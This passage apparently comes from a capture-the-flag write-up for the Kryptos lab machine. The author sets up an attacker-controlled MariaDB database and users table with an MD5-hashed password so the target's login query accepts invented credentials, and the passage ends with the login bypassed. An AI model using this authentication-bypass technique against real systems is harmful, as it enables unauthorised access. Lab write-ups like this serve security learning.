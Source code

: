 	MariaDB [(none)]> FLUSH PRIVILEGES;
	Query OK, 0 rows affected (0.001 sec)

	MariaDB [(none)]> CREATE DATABASE cryptor;
	Query OK, 1 row affected (0.000 sec)

Trigger again the login with credentials ```attacker:password``` and we get the query:

	SELECT username, password FROM users WHERE username='attacker' AND password='5f4dcc3b5aa765d61d8327deb882cf99'

So, the backend expects to have a table _users_ with two fields, _username_ and _password_. Let's create them then:

	MariaDB [(none)]> USE cryptor
	Reading table information for completion of table and column names
	You can turn off this feature to get a quicker startup with -A

	Database changed

	MariaDB [cryptor]> CREATE TABLE users ( username VARCHAR(255), password VARCHAR(255) );
	Query OK, 0 rows affected (0.181 sec)

	MariaDB [cryptor]> INSERT INTO users ( username, password ) VALUES ( 'attacker', '5f4dcc3b5aa765d61d8327deb882cf99' );
	Query OK, 1 row affected (0.032 sec)


In this way, we have managed to login successfully.

![](/images/kryptos/loginbypassed.png)
